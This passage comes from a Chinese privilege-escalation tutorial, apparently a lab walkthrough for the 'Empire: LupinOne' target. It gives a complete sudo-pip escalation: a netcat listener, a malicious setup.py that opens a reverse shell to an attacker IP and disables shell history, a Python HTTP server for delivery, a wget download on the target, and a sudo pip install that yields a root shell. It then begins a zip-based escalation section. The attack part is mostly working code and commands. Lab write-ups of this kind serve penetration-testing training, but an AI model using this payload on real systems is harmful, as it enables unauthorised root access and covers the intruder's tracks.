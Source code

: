 **方法二**<br />本地启动监听
```
nc -tvlp 9999
```
![](./assets/1671528059147-bd1b5298-2c1f-4a87-8bdc-001b1c067020.png)

编写提权脚本setup.py
```
from setuptools import setup   #加入

def con():
	import socket, time,pty, os
	host='192.168.1.3'
	port=9999
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.settimeout(10)
	s.connect((host,port))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
con()

setup(name="hahahaha", version="1.0")  #加入
```

将setup.py上传到目标机
```
python2 -m SimpleHTTPServer 7777
```
![image.png](./assets/1671527940830-2bf27237-80e6-425d-a5d4-09be4c800719.png)
```
wget http://192.168.1.3:7777/setup.py
```
![image.png](./assets/1671527984893-2b03e4bc-e466-4ba5-a062-18d5ea57d325.png)

在靶机上执行
```
sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功反弹shell
![image.png](./assets/1671527667637-dd81ec67-7d15-4b1c-a803-e4b17e793b80.png)

应用参考链接：[Empire: LupinOne](https://www.yuque.com/xmtxsec/network_security/gzpcg65xp5si10tl)


## 10.4、ZIP提权
zip命令被分配了root权限<br />![](./assets/1671608451230-9ae50937-adb3-47d5-9423-1a6af913ceba.jpeg)

可以发现 sarang 用户可以以 root 用户身份权限来运行 zip 命令，那么我们就可以通过 ZIP 来进行提权

